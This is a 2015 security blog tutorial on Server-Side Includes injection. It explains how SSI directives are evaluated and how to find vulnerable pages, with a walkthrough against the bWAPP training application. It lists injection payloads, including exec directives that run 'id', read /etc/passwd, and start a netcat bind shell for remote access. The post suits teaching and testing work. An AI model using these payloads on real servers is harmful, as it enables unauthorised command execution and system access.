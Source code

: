```yaml
---
layout:     post
title:      "Server-Side Includes (SSI) Injection"
subtitle:   "Injecting SSI Directives into HTML pages to execute arbitrary code remotely."
date:       2015-09-28 12:00:00
author:     "Snoopy, the Security Dog"
header-img: "img/post-bg-03.jpg"
---
```


<p>SSI (Server Side Includes) are directives that are placed in HTML pages, and evaluated on the server while the pages are being served. They let you add dynamically generated content to an existing HTML page, without having to serve the entire page via a CGI program, or other dynamic technology.
As an example, look at the below directive</p>
<blockquote>&lt;!--#echo var=&quot;DATE_LOCAL&quot; --&gt;</blockquote>
<p>When the page is served and rendered, the above directive will be evaluated to the current date used by the server.
In most cases, the best ways to find these vulnerabilities are to look for the following page extensions</p>
<li>.stm</li>
<li>.shtm </li>
<li>.shtml</li>
<p>For example, when using Apache; SSI directives are set using </p>
<blockquote>
AddType text/html .shtml
AddOutputFilter INCLUDES .shtml
</blockquote>


<p>But, it it also possible to use XBitHack directives to set any .html file extension to parse SSI directives. This can make the identification of the vulnerability much harder. Furthermore, the application should be invalidating special characters such as <strong>&lt; ! # = / . &quot; - &gt; and [a-zA-Z0-9]</strong> in order for successful exploitation. 
Successful exploitation of this vulnerability can lead to system file access, as well as remote code execution. The best way to find an SSI Injection is by injecting any of the following payloads in any form fields or headers in a vulnerable application.</p>
<blockquote>
&lt;!--#echo var=&quot;DATE_LOCAL&quot; --&gt;  &nbsp;   <i>(prints current date)</i><br>
&lt;!--#echo var=&quot;DOCUMENT_NAME&quot; --&gt;  &nbsp;   <i>(show current document filename)</i><br>
&lt;!--#exec cmd=&quot;id&quot; --&gt;		&nbsp; <i>(execute ‘id’ command)</i><br>
&lt;!--#exec cmd=&quot;cat /etc/passwd&quot; --&gt; &nbsp;   <i>(read passwd file)</i><br>
&lt;!--#echo var=&quot;DOCUMENT_URI&quot; --&gt;  &nbsp; <i>(show virtual path and filename)</i>
</blockquote>
<p>For better understanding, let’s look at an SSI Injection example available on bWAPP. The below web page uses<strong> &lt;!--#echo var=&quot;REMOTE_ADDR&quot; --&gt;</strong> directive to print a user’s IP address. But, the application also takes two values and returns it in the result page without any validation. </p>


<img alt="" src="http://snoopysecurity.github.io/img/ssrf/ssi1.png" />

<p>This can be exploited by using any of the above mentioned SSI payloads. I prefer using the ‘date local’ payload for initial detection since most web servers generally don't allow the use of the exec directive to execute system commands.</p>

<img alt="" src="http://snoopysecurity.github.io/img/ssrf/ssi2.png" />

<p>As expected, the current date and current document name is returned back in the page. This vulnerability can be further exploited by executing system commands to gain a remote shell.</p>
<blockquote>&lt;!--#exec cmd=&quot;nc -lvp 4444 -e /bin/bash&quot; --&gt;</blockquote>


<p>The above command starts a Netcat listener on port 4444. Netcat is a simple utility which reads and writes data across a network connection using TCP or UDP. If Netcat is running on the vulnerable server, you could use it to set up a listener and then redirect the output of operating system commands into the listener.
Using Netcat, it is possible to get a remote shell on the server.</p>

<img alt="" src="http://snoopysecurity.github.io/img/ssrf/ssi3.png" />

<p>If you are using Burp Suite Pro, this vulnerability will be identified by the Burp scanner when using the active scan function.</p>

<img alt="" src="http://snoopysecurity.github.io/img/ssrf/ssi4.png" />






